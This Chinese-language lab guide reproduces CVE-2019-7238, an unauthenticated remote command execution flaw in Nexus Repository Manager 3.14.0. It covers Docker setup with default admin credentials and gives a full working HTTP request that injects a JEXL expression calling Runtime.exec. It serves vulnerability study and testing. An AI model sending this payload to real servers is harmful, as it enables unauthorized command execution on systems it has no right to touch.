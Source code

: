 # Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## 环境搭建

执行如下命令启动Nexus Repository Manager 3.14.0：

```
docker compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：

![](1.png)

触发该漏洞，必须保证仓库里至少有一个包存在。

## 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：

```
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

可见，`/tmp/success`已成功执行：

![](2.png)

原理是expression位置的JEXL表达式被执行，详情可阅读参考文档。

利用classloader加载字节码即可获得回显：

![](3.png)
